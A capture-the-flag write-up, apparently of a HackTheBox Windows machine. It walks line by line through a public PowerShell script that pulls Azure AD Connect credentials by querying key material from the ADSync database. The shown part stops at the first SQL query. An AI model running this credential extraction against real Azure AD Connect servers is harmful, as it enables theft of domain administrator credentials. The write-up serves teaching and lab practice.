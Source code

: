 I see that the mhope user is part of the Azure Admins group but nothing else. After wasting a bit of time here, I safely conclude that there is really nothing else interesting in the output. So I can now proceed to enumerate on the box itself.


#### Analysis

I find a .Azure directory in mhope's home directory.

Simply googlging around for Azure Admins group privesc leads me to this script:  https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1

Let's break it down step by step so we know what we are running on our target environment!

tl;dr: Script fetches some stuff from the database, script then fetches encrypted stuff from the database, script decodes encrypted stuff using stuff from first fetch, script prints out decrypted stuff in a good format

You can skip this section if you want.

```powershell
Function Azure-ADConnect {param($db,$server)
$help = @"
.SYNOPSIS
    Azure-ADConnect
    PowerShell Function: Azure-ADConnect
    Author: Luis Vacas (CyberVaca)
    Based on: https://blog.xpnsec.com/azuread-connect-for-redteam/

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION

.EXAMPLE
    Azure-ADConnect -server 10.10.10.10 -db ADSync

    Description
    -----------
    Extract credentials from the Azure AD Connect service.

"@
``` 
This gives us a general overview of what the script does.

The function is called Azure-ADConnect and it takes in two parameters:

1. The IP address of the server - in our case 127.0.0.1 since we are going to run it in box itself. -

2. The name of the database - in our case it is ADSync - 

```powershell
if ($db -eq $null -or $server -eq $null) {
  $help # Print out the help screen if parameters are not specified
} else {
 # Setup a connection to the SQL server using paramters as well as the current user's token (credentials)
 $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server = $server; Database = $db; Initial Catalog=$db;Integrated Security = True;"
 
 # Open the connection to the server
 $client.Open() 
 
 # Create a command to run
 $cmd = $client.CreateCommand()
 $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"

 # Execute the command
 $reader = $cmd.ExecuteReader()
```
